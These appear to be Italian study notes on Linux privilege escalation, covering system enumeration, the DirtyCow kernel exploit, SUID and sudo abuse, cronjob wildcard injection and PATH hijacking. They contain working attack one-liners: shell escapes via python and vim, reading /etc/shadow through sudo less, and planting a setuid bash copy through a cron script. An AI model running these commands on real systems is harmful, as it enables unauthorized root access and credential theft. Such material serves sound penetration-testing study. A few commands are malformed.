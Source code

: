 # linpeas.sh

>[!important]- LinPEAS
>Linux Privilege Escalatopm Awesome Script

# Kernel Exploits: Enumerate Distribution
```sh
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release #Debian-based
cat /etc/redhat-release #Redhat-based
```
![[Pasted image 20240520143425.png|center|500]]
## Kernel Esploits: Enumerate Kernel
```sh
cat /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinux-
```
![[Pasted image 20240520144413.png|center|600]]
## Kernel Exploits
Gli exploit del kernel sono programmi che sfruttano le vulnerabilità del kernel per eseguire codice arbitrario con autorizzazioni elevate.
In molti casi, passare al root su un sistema Linux è semplice come scaricare un exploit del kernel nel file system di destinazione, compilare l'exploit e quindi eseguirlo.
Il modo più semplice per difendersi dagli exploit del kernel è mantenere il kernel patchato e aggiornato.
### Esempio: Dirty Cow

![[Pasted image 20240520144627.png|center|600]]
`$ whoami` - ci dice che l'utente corrente è john (utente non root)
`$ uname -a` - ci fornisce la versione del kernel che sappiamo essere vulnerabile a dirtycow
- scaricato l'exploit DirtyCow da qui - https://www.exploit-db.com/exploits/40839/
- compilato ed eseguito. Sostituisce l'utente "root" con un nuovo utente "rash" modificando il file /etc/passwd.
`$ su rash` - Cambia l'utente correntemente connesso in "rash" che è root.
## Search for exploits
![[Pasted image 20240521143322.png|center|550]]
### Non usare come prima scelta
Tuttavia, è molto allettante eseguire semplicemente un exploit e ottenere l'accesso come root, ma dovresti sempre mantenerlo come ultima opzione.
1. L'host remoto potrebbe bloccarsi poiché molti degli exploit root disponibili pubblicamente non sono molto stabili.
2. Potresti ottenere il root e quindi mandare in crash il box.
3. L'exploit potrebbe lasciare tracce/registri che potrebbero farti catturare.
Dovresti sempre provare le altre tecniche per ottenere il root di cui abbiamo discusso di seguito prima di passare direttamente all'esecuzione di un exploit di root locale.
## Servizi eseguiti come root: privilegi dei servizi
```sh
ps aux
ps -ef
top
cat /etc/services
ps aux | grep root
ps -ef | grep root
```

![[Pasted image 20240521143534.png|center|600]]

### Servizi di root: Applicazioni installate
```sh
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/<package manager>/archives
```

![[Pasted image 20240521143842.png|center|600]]
#### Misconfigurazioni
```sh
cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk "$1 ~ /^.*r.*/
```
### Esempio: MySQL UDF
## Binari Suid
`find / -perm -4000 2>/dev/null`
![[Pasted image 20240521144157.png|center|600]]
### Esempio
```sh
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
./strings /etc/shadow
```
#### Comandi Sudo

`sudo -l`
User demo may run the following commands on crashlab:
`(root) NOPASSWD: /usr/bin/vim`
`sudo vim -c '!sh'`
User waldo may run the following commands on admirer:
`(ALL) SETENV: /opt/scripts/admin_tasks.sh`
`sudo PYTHONPATH=/dev/shm/opt/scripts/admin_tasks.sh`
User `hacker10` may run the following commands on admirer:
`hacker10 ALL= (root) /bin/less /var/log/*`
` sudo less /var/log/../../etc/shadow #Read shadow`
` sudo less /var/log/something /etc/shadow #Read 2 files`
## Cronjobs
```sh
crontab -l
ls -la /etc/cron* /etc/at*
cat /etc/cron* /etc/at* /etc/anacrontab/var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```
### Cronjobs : wildcards
`rsync -a *.sh rsync://host.back/src/rbd`
Possiamo creare un file chiamato "`-e sh myscript.sh`" così lo script eseguirà il nostro script
**Se la wildcard è preceduta da `/some/path/*` allora non è vulnerabile**.
### Abuso dei PATH
Se puoi controllare qualcosa nella radice $PATH hai molto potere
Esempio con cronjob:
`* * * * root script.sh`
Il percorso è:
`PATH=/home/utente:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`
Sfrutta con:
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/utente/script.sh`
`/tmp/bash -p`
# Pivoting
25